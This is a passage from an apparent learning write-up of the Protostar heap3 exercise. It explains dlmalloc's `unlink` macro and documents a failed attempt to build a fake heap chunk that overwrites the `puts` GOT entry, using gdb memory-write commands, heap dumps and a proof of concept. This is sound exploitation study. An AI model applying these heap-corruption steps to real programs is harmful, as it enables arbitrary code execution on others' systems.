#define unlink(P, BK, FD) {
  FD = P->fd;
  BK = P->bk;
  FD->bk = BK;
  BK->fd = FD;
}
```

> The first parameter `p`, is the block before our current block, which we got by following the `prev_size`. 


> We take the forward and backward pointer of that chunk, which is the first and second word after the size and remember it in `FD` and `BK`. 


> For simplicity ignore the `->bk` and `->fd`, because that just references a small offset from the address here. We add those offsets afterwards. 


> So now we write the address `BK`, to the address where `FD` is pointing to. And then we write `FD` to the address where `BK` is pointing to. Or to be exact at their respective offsets where the prev and next pointer is stored.


> BK could be the address of the winner function. And FD+12 could be our GoT table entry for puts(). This would overwrite an entry in the Global offset Table with the `winner` function. This sounds perfect!!! But we forget the next part, where we would take our GoT address in `FD` and attempt to write it to the address of `winner+8`. Mhhh… that would segfault. We can’t write into the code segment.


Here is another illustration from https://airman604.medium.com/protostar-heap-3-walkthrough-56d9334bcd13:



## ChatGPT-4o On `unlink`:
The `unlink` macro is a crucial part of the **`malloc`** implementation for managing free chunks in the **bin lists**. When a chunk is freed, it is added to a doubly-linked list called a **bin**. The `unlink` operation removes a chunk from this list. Understanding the `unlink` function requires familiarity with how chunks are organized in bins and how a doubly-linked list works.

### Understanding the Context

1. **Bins and Free Chunks**:
   - In the `malloc` implementation, **bins** are doubly-linked lists used to manage free chunks of different sizes.
   - Each free chunk has two pointers: `fd` (forward pointer) and `bk` (backward pointer) that link it to the next and previous chunks in the bin list, respectively.

2. **Chunk Structure**:
   - A chunk of memory, when it is **free**, has the following structure:
     ```
     | prev_size | size | fd | bk | ... free space ... |
     ```
   - The `fd` (forward pointer) points to the **next** free chunk in the bin.
   - The `bk` (backward pointer) points to the **previous** free chunk in the bin.

3. **Why Use `unlink`?**
   - When a chunk is removed from a bin (e.g., because it is being allocated or merged with another chunk), it needs to be unlinked from the doubly-linked list to maintain the integrity of the list.
   - The `unlink` macro handles this removal by adjusting the pointers of the neighboring chunks.

### Breaking Down the `unlink` Macro

The `unlink` macro is defined as follows:

```c
#define unlink(P, BK, FD) {
  FD = P->fd;
  BK = P->bk;
  FD->bk = BK;
  BK->fd = FD;
}
```

Here is what each part does:

1. **Step-by-Step Explanation**:
   - **`P`**: This is the pointer to the chunk being unlinked.
   - **`FD`**: A temporary pointer that will be used to represent the **forward** (next) chunk.
   - **`BK`**: A temporary pointer that will be used to represent the **backward** (previous) chunk.

2. **Macro Breakdown**:
   - `FD = P->fd;`: Get the pointer to the **next** chunk (`P->fd`) and store it in `FD`.
   - `BK = P->bk;`: Get the pointer to the **previous** chunk (`P->bk`) and store it in `BK`.
   - `FD->bk = BK;`: Set the `bk` pointer of the **next** chunk (`FD`) to point to the **previous** chunk (`BK`).
   - `BK->fd = FD;`: Set the `fd` pointer of the **previous** chunk (`BK`) to point to the **next** chunk (`FD`).

### Visual Example

Consider the following scenario where three free chunks `A`, `P`, and `B` are in a bin:

```
A <-> P <-> B
```

- `A` is the previous chunk of `P` (`P->bk = A`)
- `B` is the next chunk of `P` (`P->fd = B`)

#### Before `unlink(P, BK, FD)`:

- `A` points to `P` as its next (`A->fd = P`)
- `P` points to `A` as its previous (`P->bk = A`)
- `P` points to `B` as its next (`P->fd = B`)
- `B` points to `P` as its previous (`B->bk = P`)

#### After `unlink(P, BK, FD)`:

- The macro removes `P` from the list:
  - `A->fd` now points to `B` instead of `P`.
  - `B->bk` now points to `A` instead of `P`.

The resulting list looks like:

```
A <-> B
```

- `A->fd = B`
- `B->bk = A`

### Why is `unlink` Important?

- **Integrity of the Free List**: It ensures that the doubly-linked list of free chunks remains valid and properly connected after a chunk is removed.
- **Memory Management Efficiency**: Proper unlinking is essential to avoid **dangling pointers** and **memory corruption** issues, which can lead to serious vulnerabilities like **heap overflows** or **use-after-free** errors.
- **Preparation for Reuse**: When a chunk is allocated or merged, it must be removed from the free list, and `unlink` performs this operation.

### Conclusion

The `unlink` macro in the `malloc` implementation is a low-level utility that manipulates pointers to maintain the integrity of the free chunk list (bin). By correctly updating the `fd` and `bk` pointers of adjacent chunks, it ensures that the doubly-linked list remains properly connected after removing a chunk. This is a key operation in dynamic memory management that helps maintain both efficiency and security in heap operations.

## What's Going On So Far?

If we were about freeing some heap memory using `free`, the algorithm will be split into three main conditional. We have already covered the first `if` and `else if` (I think it's already suffice, not planning to cover the last `else` though because I had no resources):

```c
/* If eligible, place chunk on a fastbin so it can be found and used quickly in malloc. */
if ( (unsigned long)(size) <= (unsigned long)(av->max_fast) ) {...}
/* Consolidate other non-mmapped chunks as they arrive. */
else if (!chunk_is_mmapped(p)) {...}
```

1. So the first `if`, based on my understanding so far, is just the heap chunk that will point to next chunk when freeing some memory, it's a singly linked list. Also we probably can say that the allocated memory isn't that big hence it's considered as "fastbins". The example is already we have done:

2. The second one is suppossed to be where the merge heap chunk, with some several edge cases.
3. We learn the heap components, `prev_size`, `size`, `mem` (which is just the user data) `fk` and `bk` pointers.
4. Inside of `size` there is `PREV_SIZE` (1st LSB), `IS_MMAP` (2nd LSB), and `NON_MAIN_ARENA`, where the latter was not that important.
5. The data structure that used by dlmaloc are just singly linked list, and doubly linked list. Singly linked list is used when the heap is small, also considered as "fastbins". Whereas doubly linked list is used when the hea is pretty big, like 0x60 maybe around that number.
6. We learn the `unlink` macro which gonna be real important to understand this exploitation.


## Exploitation

### Failed: `strcpy` can’t copy null bytes
```
r AAAABBBB CCCCDDDD EEEEFFFF
set {int}0x804c050=0x00000010
set {int}0x804c054=100
set {int}0x804c044=0x11
set {int}0x804c048=0x804b128-12
set {int}0x804c04c=0x804c010
```
1. Run the gdb with normal buffer.
> 2. `0x804c054`: Set the chunk size to more than 80 and have the prev in use bit set to 0. So why not 100.
> 3. `0x804c050`: Now we want to set the `prev_size`, to point to the previous block we want to merge with. Let’s make that a small block. So maybe hex 10.
> 4. `0x804c044`: This means at -0x10 we have to create a fake chunk of that size. So set 0x11, because we want to indicate that the chunk before this fake chunk would be in use. 

"*The chunk before this fake chunk*" is just referring to `0x804c000-0x804c03c` which is just exactly before `0x804c040`.

> 5. `0x804c048`: "*Now we need the address from `puts` in the Global Offset Table. This will be the forward pointer where the 2nd pointer will be written to at +12. That’s why you have to do `puts-12`, because it will be written to the address +12.*"; or if you don't get it here is another explanation: "*because the Unlink() function sets FD->bk = BK and the bk field is located at a 12 byte offset from the beginning of a chunk*"
> 6. `0x804c04c`: This other pointer will be the address that we write to the Global Offset Table, so that one should point somewhere into the heap where we can place some shellcode. Why not go here, `0x804c010` so `0x804c04c=0x804c010`. 

Here is the overview:


> Just one other thing to consider, before we can test it: the `size` is used to calculate the next chunk `nextchunk` and the next size `nextsize`:
```c
typedef struct malloc_chunk* mchunkptr;

#define SIZE_BITS (PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)

/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s) ((mchunkptr)(((char*)(p)) + (s)))

/* Get size, ignoring use bits */
#define chunksize(p) ((p)->size & ~(SIZE_BITS))

/* Consolidate other non-mmapped chunks as they arrive. */
else if (!chunk_is_mmapped(p)) { 
  nextchunk = chunk_at_offset(p, size);  // <--- nextchunk
  nextsize = chunksize(nextchunk);  // <--- nextsize
}
```

> And after the `unlink`:
```c
/* Consolidate other non-mmapped chunks as they arrive. */
else if (!chunk_is_mmapped(p)) {
  ...
  /* consolidate backward */
  if (!prev_inuse(p)) {
    ...
    unlink(p, bck, fwd); // <--- unlink
  }
}
```

> Those values are used:
```c
/* Consolidate other non-mmapped chunks as they arrive. */
else if (!chunk_is_mmapped(p)) {
  ...
  /* consolidate backward */
  if (!prev_inuse(p)) {
    ...
    unlink(p, bck, fwd);
  }
  if (nextchunk != av->top) {...} // <--- nextchunk is being checked
}
```

> So if we use the size 100, we point into some unused memory and we have to make sure that the values there behave nicely. Otherwise we will crash somewehere. 


> There is an if-check if the next chunk is the top, or what we call wilderness:
```c
/* Consolidate other non-mmapped chunks as they arrive. */
else if (!chunk_is_mmapped(p)) {
  ...
  /* consolidate backward */
  if (!prev_inuse(p)) {
    ...
    unlink(p, bck, fwd);
  }
  if (nextchunk != av->top) {...} // <--- if-check
}
```

> But our size is overshooting that address. This means we land in this if-case:
```c
/* Consolidate other non-mmapped chunks as they arrive. */
else if (!chunk_is_mmapped(p)) {
  ...
  /* consolidate backward */
  if (!prev_inuse(p)) {
    ...
    unlink(p, bck, fwd);
  }
  if (nextchunk != av->top) {
    /* get and clear inuse bit */
    nextinuse = inuse_bit_at_offset(nextchunk, nextsize); // <---- land on this

    /* consolidate forward */
    if (!nextinuse) {  
      unlink(nextchunk, bck, fwd);
      size += nextsize;
    } else clear_inuse_bit_at_offset(nextchunk, 0);
  } 
}
```

> And now it calculates the next block of that one:
```c
/* check/set/clear inuse bits in known places */
#define inuse_bit_at_offset(p, s)\
 (((mchunkptr)(((char*)(p)) + (s)))->size & PREV_INUSE)

nextinuse = inuse_bit_at_offset(nextchunk, nextsize);
```

> And checks the prev in use bit to figure out if the block before it is free or not. So if it is not in use we perform another `unlink` to also merge the unused block after the current one. Which copies around those pointers.
```c
/* consolidate forward */
if (!nextinuse) {
  unlink(nextchunk, bck, fwd);
  size += nextsize;
} else clear_inuse_bit_at_offset(nextchunk, 0);
```

> **So to summarize:**
> 1. We change the size of the block we are going to free `0x804c054=100`. 
> 2. We create a fake free chunk before our current one to trigger an `unlink` and overwrite the GOT, `0x804c044=0x11`,`0x804c048=0x804b128-12`, `0x804c04c=0x804c010`. 
> 3. And we created two fake chunk afterwards, where the second one says about the previous that it is in use `0x804c0c8=0x11`. Thus not triggering another unlink:
```bash
set {int}0x804c0b8=0x10
set {int}0x804c0c8=0x11
```

---

Here is the heap after the last `strcpy` call:
```bash
0x804c000:	0x00000000	0x00000029	0x41414141	0x42424242
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x43434343	0x44444444	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x45454545	0x46464646
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
```
Nothing happend of course, it's normal. So next we will send this modified heap data before calling the first `free(c)`. Here is the full gdb `set` command:
```bash
set {int}0x804c050=0x00000010
set {int}0x804c054=100
set {int}0x804c044=0x11
set {int}0x804c048=0x804b128-12
set {int}0x804c04c=0x804c010
set {int}0x804c0b8=0x10
set {int}0x804c0c8=0x11
```

Examine the heap `x/56wx 0x804c000`, and here is the output, `*` indicate the changes `set` we made:
```bash
0x804c000:	0x00000000	0x00000029	0x41414141	0x42424242
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x43434343	0x44444444	0x00000000	0x00000000
0x804c040:	0x00000000	*0x00000011*	*0x0804b11c*	*0x0804c010*
0x804c050:	*0x00000010*	*0x00000064*	0x45454545	0x46464646
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	*0x00000010*	0x00000000
0x804c0c0:	0x00000000	0x00000000	*0x00000011*	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```

**After the first `free(c)` call**, `*` indicate some changes after the `free` call:
```bash
0x804c000:	0x00000000	0x00000029	0x41414141	0x42424242
0x804c010:	0x00000000	0x00000000	*0x0804b11c*	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x43434343	0x44444444	0x00000000	0x00000000
0x804c040:	0x00000000	*0x00000075*	*0x0804b194*	*0x0804b194*
0x804c050:	0x00000010	0x00000064	0x45454545	0x46464646
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	*0x00000074*	0x00000010	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000011	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```

Examining the `puts` GOT
```bash
(gdb) disas 0x8048790
Dump of assembler code for function puts@plt:
0x08048790 <puts@plt+0>:	jmp    DWORD PTR ds:0x804b128
0x08048796 <puts@plt+6>:	push   0x68
0x0804879b <puts@plt+11>:	jmp    0x80486b0
End of assembler dump.
(gdb) x/1wx 0x804b128
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:	0x0804c010
```
The GOT points to our heap address `0x0804c010`.


**After the second `free(b)` call:**
```bash
0x804c000:	0x00000000	0x00000029	0x41414141	0x42424242
0x804c010:	0x00000000	0x00000000	0x0804b11c	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	*0x00000000	0x44444444	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000075	0x0804b194	0x0804b194
0x804c050:	0x00000010	0x00000064	0x45454545	0x46464646
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000074	0x00000010	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000011	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```

**After the third `free(a)` call:**
```bash
0x804c000:	0x00000000	0x00000029	*0x0804c028	0x42424242
0x804c010:	0x00000000	0x00000000	0x0804b11c	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x44444444	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000075	0x0804b194	0x0804b194
0x804c050:	0x00000010	0x00000064	0x45454545	0x46464646
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000074	0x00000010	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000011	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```

**`step into` the `puts`:**
```bash
Breakpoint 4, 0x08048790 in puts@plt ()
(gdb) si
0x804c000:	0x00000000	0x00000029	0x0804c028	0x42424242
0x804c010:	0x00000000	0x00000000	0x0804b11c	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x44444444	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000075	0x0804b194	0x0804b194
0x804c050:	0x00000010	0x00000064	0x45454545	0x46464646
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000074	0x00000010	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000011	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c010:	add    BYTE PTR [eax],al
0x804c012:	add    BYTE PTR [eax],al
0x0804c010 in ?? ()
(gdb) 
0x804c012:	add    BYTE PTR [eax],al
0x804c014:	add    BYTE PTR [eax],al
0x0804c012 in ?? ()
(gdb) 
0x804c014:	add    BYTE PTR [eax],al
0x804c016:	add    BYTE PTR [eax],al
0x0804c014 in ?? ()
```
Our exploitation was failed because: 
> "*strcpy can’t copy nullbytes. A string in C is defined to end with NULL. So we can’t write sizes like hex 10 into memory. At least not multiple times.*"

Here is the proof of concepts:
```bash
r AAAA $(python -c "print('\x90\x00\x00\x00'+'\x90\x00\x00\x00')")
```
After the second `strcpy(b, argv[2])` call, the heap memory are suppossed to be looked like:
```
0x804c000:	0x00000000	0x00000029	0x41414141	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	*0x00000090	*0x00000090	0x00000000	0x00000000
...
```

However because `strcpy` cannot copy a null bytes, it ends up to something like this:
```bash
0x804c000:	0x00000000	0x00000029	0x41414141	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	*0x00009090	0x00000000	0x00000000	0x00000000
...
```

Here is the hint for next episode where we succeded this challenge:
> "*So when we want to construct a fake chunk that we can unlink, we want to make sure that no field has to contain a null-byte. This means we have to use very very large values for the size. But that doesn’t seem useful, because the heap is not that big. For example fffffffC (0xffff,fffC). That would be over 4 billion (4.294.967.292₁₀). Now what happens when you add 0x64, which is decimal 100 to that 4 billion? That doesn’t fit in 32bit (0x1,0000,0060). And the carry of the addition will be lost (0x0000,0060). And now you have a very small value again. In fact it’s 0x60 (0x00000060). Which is 4 less than 0x64. This means by adding 4 billion, the ffffffc to 100, we actually subtracted 4. And that’s a really useful behaviour for our case. Because this value that doesn’t contain any null-bytes behaves like a very small subtraction.*"


## Resources
__. *Once upon a free()*. https://phrack.org/issues/57/9.html.

Airman. https://airman604.medium.com/protostar-heap-3-walkthrough-56d9334bcd13.

LiveOverflow. *The Heap: Once upon a free() - bin 0x17*
. https://www.youtube.com/watch?v=gL45bjQvZSU&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=30.

LiveOverflow. *The Heap: dlmalloc unlink() exploit - bin 0x18*
. https://www.youtube.com/watch?v=HWhzH--89UQ&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=32.

Wang, Joshua. https://conceptofproof.wordpress.com/2013/11/19/protostar-heap3-walkthrough/.